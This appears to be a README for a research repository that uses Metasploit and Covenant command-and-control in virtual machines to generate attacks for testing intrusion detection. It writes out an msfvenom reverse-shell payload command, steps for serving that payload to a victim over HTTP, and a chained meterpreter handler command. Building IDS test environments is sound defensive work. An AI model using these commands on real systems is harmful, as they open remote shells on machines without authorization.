 # C2abstraction
C2 abstraction layer that provides high-level diverse malware attacks to test IDS. 

Important Notes: Updated 11-07-2023

The important python files are 'C2Abstraction' and 'Mouse Script'

# Virtual Machines:

Attacker - Kali Linux (each IP is different => Must change line 64 in setup)

Victim - Another virtual machine (in this case using Windows)

    Preliminary work:
        - Setting up Kali Linux (on VMWare, an alternative is on Oracle VM): https://www.youtube.com/watch?v=pwYH0NNWWzU
        - Setting up victim machine: https://www.youtube.com/watch?v=nvdnQX9UkMY&t=259s

METASPLOIT:
    How to create a payload?
        - If you are creating a payload for testing directly from terminal
          run command 'msfvenom -p windows/shell/reverse_tcp LHOST=192.168.110.129 LPORT=4444 -f exe > ~/Desktop/ShellCodes/payload.exe'
          NOTE: this command assumes that you have a folder called 'ShellCodes' (can be removed)

    How to deploy the payload? (Need to automate this step)
        - As of right now, you can create a server to host the payload by
          right clicking on the folder and choose 'open terminal here' then
          use the command 'python3 -m http.server'

        - How to access this sever on the victim machine?
            * Open a webserver and type in 'http://{ip of kali machine}:{port number}'
            * In this case it is 'http://192.168.239.128:8000 (8000 is the default port)

    How to run msfvenom?
        - run 'msfconsole' in command line
        - then type in 'use exploit/multi/handler'
        - then set payload as 'set payload windows/meterpreter/reverse_tcp'
        - set host using 'set lhost {attacker ip}'
        - set listening port using 'set lport {target_port}'
        - then type in 'exploit'
        NOTE: in the code this whole sequence is chained into one line on line 46: 'use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost {target_ip}; set lport {target_port}; exploit;


How to track if HTTP commands/connections are going through?
    -You can catch the logs of the HTTP connections in real time by
        * going to /etc
        * then go to /ssh
        * then use 'nano' command to edit the 'sshd_config' file
        * look for the line '#LogLevel INFO'
        * remove the # then replace INFO with 'VERBOSE'
        * now run 'sudo journalctl -f' in the command line to track the logs

How to run the payload on the victim machine?
    - Using SCP we can connect to


COVENANT:
NOTE: What is the difference between covenant and metasploit?
        - Covenant has a web GUI that requires a script to control the mouse to deploy the malware

How to download covenant/introduction to covenant: https://www.youtube.com/watch?v=BLMW0fougFM
How to use the interface: https://www.youtube.com/watch?v=iX_qsbbNk2w

Mouse Script:
    - This python file is used to automatically control your mouse to create a listener on the GUI
      and create the "grunt" (used for collecting information)




# Citation
    @Unpublished{HungVu_IDS_TESTING_C2,
      author = {Hung Anh Vu},
      title = {{Research Testing Environment}},
      url = {https://github.com/HungAnhVu/C2abstraction},
      version = {1.0.0},
      year = {2023}
    }
